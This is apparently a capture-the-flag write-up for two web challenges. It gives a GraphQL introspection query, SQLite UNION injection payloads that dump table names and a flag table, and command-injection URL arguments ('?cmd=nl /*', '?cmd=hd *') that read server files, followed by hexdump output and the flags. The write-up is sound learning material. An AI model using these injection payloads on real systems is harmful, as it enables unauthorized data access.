 # Table of contents
- ## [graphed 2.0](#challenge-name--graphed-20)
- ## [hackme](#challenge-name-hackme)
  
---


# Notes

### I'm using Ubuntu 20.04 as my environment.

---

# Challenge Name: graphed 2.0
![questoin screenshot](../images/graphed.png)

## *At the time of writing this, the website is down*

## Information
1. It's a website with graphql as backend

## My solution
1. Query this to get lots of information
```
http://45.134.3.200:8080//graphql?query={
    __schema{
        types{
            name,
            description,
            enumValues{
                name,
                description
             },
            fields{
                name,
                args{
                    name,
                    description,
                    type{
                        name,
                        kind,
                        ofType{
                            name,
                            kind
                         }
                      },
                   defaultValue
                   },
                description,
                type{
                    name,
                    kind,
                    ofType{
                        name,
                        kind
                        }
                     }
                }
            }
         }
       }
```
2. from all the returned queries and mutations, there will be a query named ```getNote('string')```, we can do sqlite injection into the query

3. getting all the tables
```
query={
    getNote(q:"1' union select type,name,tbl_name,NULL from sqlite_master--")
    {body,title}
    }
```

![solution 1](../images/graphed_sol_1.png)

4. The flag is in the table named العلم *(Google translate: "Science?")*

```
query={
    getNote(q:"1' union select id,flag,NULL,NULL from العلم--")
    {body,title}
    }
```

## Flag : flag{h0p3_u_can't_r3@d_1t9176}

---

# Challenge Name: hackme

![Question screenshot](../images/hackme.png)

## Information
1. use arg cmd for running a command and arg ?reset for clearing the env

## My solution
1. before this challenge i wasn't aware of the command ```nl```, i found it by trying all the two words command i can find on my machine.
2. the solution is quite simple, visit the url with argument ```?cmd=nl /*```
![solution 1](../images/hackme_sol_1.png)
3. which will give out internal server error at first
4. next do ```?cmd=hd *```
```
.
.
.
0000c1b0  01 00 00 00 00 00 00 00  40 0e 00 00 00 00 00 00  |........@.......|
0000c1c0  c8 7d 85 ea 28 7f 00 00  c8 7d 85 ea 28 7f 00 00  |.}..(....}..(...|
0000c1d0  00 00 00 00 00 00 00 00  ad 4a 61 ea 28 7f 00 00  |.........Ja.(...|
0000c1e0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
*
0000c200  55 4b 61 ea 28 7f 00 00  14 4c 61 ea 28 7f 00 00  |UKa.(....La.(...|
0000c210  fe 4b 61 ea 28 7f 00 00  b0 a2 85 ea 28 7f 00 00  |.Ka.(.......(...|
0000c220  00 04 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
0000c230  00 00 00 00 00 00 00 00  03 00 00 00 00 00 00 00  |................|
0000c240  00 00 00 00 00 00 00 00  00 00 ff ff ff ff ff ff  |................|
0000c250  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
*
0000c2b0  66 6c 61 67 7b 6a 75 35  37 5f 67 30 74 74 40 5f  |flag{ju57_g0tt@_|
0000c2c0  35 70 6c 31 74 5f 45 6d  33 30 31 32 7d 0a 00 00  |5pl1t_Em3012}...|
0000c2d0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
*
0000c6b0  01 05 00 00 00 00 00 00  41 09 00 00 00 00 00 00  |........A.......|
0000c6c0  80 7d 85 ea 28 7f 00 00  80 7d 85 ea 28 7f 00 00  |.}..(....}..(...|
0000c6d0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
*
0000cff0  40 0e 00 00 00 00 00 00  01 00 00 00 00 00 00 00  |@...............|
0000d000  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
*
0002be50  00 00 00 00 00 00 00 00  ab 00 00 00 00 00 00 00  |................|
0002be60  28 19 f3 20 ff 7f 00 00  e9 1c 62 ea 28 7f 00 00  |(.. ......b.(...|
0002be70  00 00 00 00 00 00 00 00  a8 0e f3 20 ff 7f 00 00  |........... ....|
0002be80  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
*
0002bf20  00 00 00 00 00 00 00 00  ac 19 62 ea 28 7f 00 00  |..........b.(...|
0002bf30  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
*
0002bfb0  00 00 00 10 00 00 00 00  00 00 00 00 00 00 00 00  |................|
0002bfc0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
.
.
.
```

## Flag: flag{ju57_g0tt@_5pl1t_Em3012}
---